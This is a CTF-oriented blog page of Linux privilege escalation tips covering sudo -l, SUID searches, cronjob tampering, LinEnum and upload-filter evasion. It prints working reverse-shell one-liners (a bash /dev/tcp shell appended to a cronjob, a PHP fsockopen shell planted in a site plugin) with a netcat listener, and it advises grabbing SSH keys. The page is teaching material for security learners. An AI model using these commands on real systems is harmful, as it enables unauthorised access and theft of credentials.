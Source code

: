 ```yaml
---
layout: page
title: Privilege Escalation
subtitle: The many different ways to escalate your privileges
image: /assets/fe.ico
description: The MANY different ways to escalate privileges
permalink: /tipsandtricks/privilegeescalation/
#hero_image: /assets/fe.ico
#hero_height: is-fullheight
---
```


# Introduction
Alrighty, so there's a lot that can be said here. I'm unsure how far into this I should go before I lose my mind alongside you, so this might be briefer than it could be. We'll see.
<br><br>
To better qualify the situation - privilege escalation implies you already have some type of access to a system, say through a basic end user that had a poor password. The following scenarios imply you already have a shell of some kind, and you are looking to further exploit that and get to the point where you are running the shell as an admin / root, or at least can execute commands as one.
<br><br><br>
# Let's start with sudo -l and SUID permissions
One of the go to commands once you've established yourself within a shell on a system is a quick `sudo -l`. It takes two seconds to type and another thirty seconds to check if anything from those results might be useful. What that does is list the commands that you can run as sudo, on a properly configured system this should be all but zero for normal users.
<br><br>
Let's say there is an improperly configured system that allows you to run `/usr/bin/less` with sudo rights. This could lead to you reading files that you should not have access to. The easiest way to discover if there is a way to exploit whatever is listed from the `sudo -l` command is to reference [gtfobins](https://gtfobins.github.io/). They have a _massive_ library of ways to bypass restrictions and escalate your privileges - their site will be referenced multiple times throughout my [CTF Exploits](/blog) page.
<br><br>
On a very similar note, we can use files that have the SUID permissions (can run files with the owner's privileges) to escalate our privileges. We can check what files like this exist by entering `find / -perm -u=s -type f 2>/dev/null`. This is very similar to any other find command, what this searches for are files that contain those SUID permissions. And again, if this returns you a list reference gtfobins for any known exploits from them.
<br><br><br>

# Uploading reverse tcp shells
There are numerous ways you can start a reverse shell, I've modified plugins for a blog, replaced a file that was used by a cronjob, there's a range of ways.
<br><br>
A great site for this is [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), as they offer some quick commands that, once edited for your IP address and port, can start those shells via bash, perl, python, php and other methods. They also have more material on that side beyond just how to start reverse shells, including stuff relating to SQL injection and more notes on John.
<br><br>
Back to the reverse shell side of things, let's use the example I mentioned with modifying the file used by the cronjob. Essentially I was able to edit in the following command to a cronjob that executed every minute, and what I appended to that file was the following:<br>
`bash -i >& /dev/tcp/10.18.91.219/8000 0>&1`<br><br>
While in another tab I had a netcat listener on that same port: `nc -lvnp 8000`
<br><br>
Basically what this two step process is saying is:<br>
- First, upload a reverse shell somehow, that will somehow be called (examples given here were as activated plugins or by a cronjob)
- And then second, you need to be listening on the same port that the reverse shell is trying to reach you at. When that command executes it will try to initiate that connection over port `8000` at my IP address of `10.18.91.219`. If I am not listening over that port I will miss the connection<br><br>

The other example was with the plugin, and although I forget exactly how it was worded, I do recall I was able to gain a foothold into their website editor and from there I could edit their plugins. I edited one of their already active plugins with something like:<br>
`php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`<br><br>
And then curled the location for that specific php plugin, which started the reverse shell, and my netcat listener was already waiting.<br><br>

There are many different ways you can initiate that reverse shell, it all comes down to what you have access to, what you should modify, and your permissions for those files.
<br><br><br>

# Upgrading / starting shells
Sometimes you might find that you have established a shell to a machine, but it is not the best or maybe not as stable as you would like. Some simple ways to do this include through python and perl, although there are more.
<br><br>
With python that would be:<br>
`python -c 'import pty;pty.spawn("/bin/bash")'`<br>
This extends to v3.x as well. If you're unsure what is installed, run a quick `which python`.
<br><br>
Through perl:<br>
`perl -e 'exec "/bin/sh";'`
<br><br><br>

# Reoccuring jobs / tasks on machines
Also known as cronjobs, although there are different kinds. Sometimes these will run exploitable or editable tasks on a schedule. If you can find a way to change them directly or resources / modules they interact with, this can be yet another way to gain access to more information or escalate your access. On most linux distributions you will find this at `/etc/crontab`. You can access this with a text editor or with `crontab -e`, or use the `-l` flag instead to just view them.
<br><br><br>

# LinEnum
This is another tool that can be found on GitHub, and can provide useful information on a target machine if you can get the permissions needed to run it. It does a lot of the things that are mentioned on this page automatically and generates a report for you to view later. Once you are on the machine you can get the file via wget or curl to the `/tmp` directory and work from there. The bash file is located [here](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh).<br><br>
Note: You will likely need to `chmod +x` that file to give it executable permissions.
<br><br><br>

# Other
Anytime you can find ssh keys, grab 'em. Reference the [bruteforcing](/tipsandtricks/bruteforcing/) page for ways to crack those and use them to your advantage.
<br><br>
As mentioned before, sometimes gaining that next foothold includes uploading e.g. php files to start a reverse tcp shell with yourself. However, depending where you upload they might restrict you to only certain types of files, or disallow certain types of files. Some ways to _maybe_ get around this is capitilize letters like .Php or .phP instead of .php, maybe see if it'll accept a .phtml file, etc. You get the idea. Security controls are meant to secure something otherwise not secure (duh), but that doesn't mean they account for everything, even if that means something as simple as denying file types by certain extensions only.
<br>
